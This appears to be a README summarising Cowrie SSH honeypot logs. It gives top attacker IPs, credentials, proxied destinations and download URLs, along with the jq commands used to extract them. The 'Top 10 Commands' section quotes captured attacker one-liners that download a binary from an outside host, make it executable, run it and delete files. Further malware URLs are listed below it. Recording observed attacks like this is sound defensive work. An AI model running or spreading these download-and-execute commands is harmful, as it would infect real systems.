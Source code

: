 ### Successful Login IPs
```ruby
    1449 "194.88.107.163"
    821 "45.227.255.163"
    674 "5.188.86.174"
    643 "62.112.11.86"
    581 "45.227.255.205"
    356 "190.2.144.45"
    300 "109.236.89.61"
    294 "89.39.105.84"
    286 "62.112.11.8"
    286 "5.182.39.64"
```
The following command was used to gather the top 10 Succesful IPs that were able to login.<br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.login.success")) .src_ip' | sort | uniq -c | sort -bgr | head -n 10`


### Failed Login IPs
```ruby
     44 "199.195.251.205"
      8 "45.227.254.10"
      2 "47.61.62.102"
      2 "194.165.16.89"
      2 "182.84.124.87"
      2 "143.198.220.67"
      2 "119.45.134.38"
      1 "95.70.166.88"
      1 "89.22.183.153"
      1 "89.163.150.234"
```
The following command was used to gather the top 10 IPs that failed to gain access. <br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.login.failed")) .src_ip' | sort | uniq -c | sort -bgr | head -n 10`

### Top 10 usernames used
```ruby
   9566 "root"
     24 "admin"
     18 "user"
     16 "ubuntu"
     14 "test"
     12 "git"
     10 "postgres"
      8 "tester"
      8 "deploy"
      7 "oracle"
```
The folowing command was used to gather the top 10 usernames.<br>
`cat cowrie.json* | jq '. | select(.username) | .username'  | sort | uniq -c | sort -bgr | head -10`


### Top 10 passwords used
```ruby
  7238 "admin"
   1528 "password"
    671 ""
     50 "alpine"
     43 "123"
     36 "1234"
     24 "123456"
     13 "root"
     11 "test"
     11 "12345"
```

The following command was used to gather the top Passwords. <br>
`cat cowrie.json* | jq '. | select(.password) | .password'  | sort | uniq -c | sort -bgr | head -10`

### Top 10 Commands
```ruby
     17 "rm -rf x86_64; cd /tmp; wget http://107.172.249.148/x86_64; curl -O http://107.172.249.148/x86_64; busybox wget http://107.172.249.148/x86_64; chmod 777 x86_64; ./x86_64 roots; rm -rf *; nc 1 1;"
     17 "cd /tmp; rm -rf x86_64; wget http://107.172.249.148/x86_64; curl -O http://107.172.249.148/x86_64; busybox wget http://107.172.249.148/x86_64; chmod 777 x86_64; ./x86_64 roots; rm -rf *; pkill cnrig; pkill xmrig; pkill YDEdr; pkill ip; pkill fuckjewishpeopl; pkill x-8.6-.ISIS; pkill x86_64; pkill x86;"
      7 "uname -a"
      5 "which ls"
      5 "w"
      5 "uname -m"
      5 "uname"
      5 "top"
      5 "ls -lh $(which ls)"
      5 "lscpu | grep Model"
```
The following command was used to gather this information.<br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.command.input")) | .input' | sort | uniq -c | sort -bgr | head -n 10`

### Top 10 TCP IP
The list contains a list of websites that was visited by people that were using the honeypot as a proxy
```ruby
   raker6944 "ip-who.com"
   4110 "i.instagram.com"
   4014 "23.235.255.50"
   4007 "www.google.ru"
   3282 "www.google.com"
   3224 "67.205.145.217"
   2499 "rogers-fido.janraincapture.com"
   2134 "ya.ru"
   2101 "23.52.19.209"
   1849 "208.95.112.1"

```
The following command was used to gathered the top 10 sites that were visited using the proxy. <br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.direct-tcpip.request")) .dst_ip' | sort | uniq -c | sort -bgr | head -n 10`

### Top files that was downloaded
```ruby
      5 "/root/.ssh/authorized_keys"
      2 ""
```
The following command was ued to gather the top 10 files that were downloaded. <br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .destfile' |  grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`

### Top 10 URLs
```ruby
    102 "http://107.172.249.148/x86_64"
      2 "http://71.127.148.69/.x/2sh"
      2 "http://71.127.148.69/.x/1sh"
      1 "http://71.127.148.69/.x/3sh"
```

The following command was used to gather URLS that were used to download files. <br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .url' | grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`

